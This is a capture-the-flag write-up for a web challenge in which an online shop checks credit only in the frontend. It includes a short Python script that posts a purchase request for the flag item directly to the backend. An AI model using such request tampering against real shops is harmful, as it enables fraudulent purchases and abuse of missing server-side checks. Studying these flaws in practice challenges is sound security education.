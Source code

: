 # CyberChallenge.IT 2024 - University CTF

## [web] YetAnotherShopChallenge (131 solves)

Site: [http://yasc.challs.external.open.ecsc2024.it:38208](http://yasc.challs.external.open.ecsc2024.it:38208)

Author: Lorenzo Leonardini <@pianka>

## Solution

YASC is an online shop. The shop sells different items, among these items there's the flag.

The user doesn't have enough credit to buy the flag. However, it's just the frontend that doesn't allow to buy too expensive items, the backend has no checks for it. For this reason, we can send a request directly to the backend to buy the flag:

```py
import request

# the session is required in order to have some credit balance
session = requests.Session()
session.get('http://yasc.challs.external.open.ecsc2024.it')

res = session.post('http://yasc.challs.external.open.ecsc2024.it/buy', data={'product_id': '43d27d66-150b-4b41-a1ee-6c3e02c0a67c'})
print(res.text)
```

Alternatively, we can intercept and edit from Burp the request to buy another item.
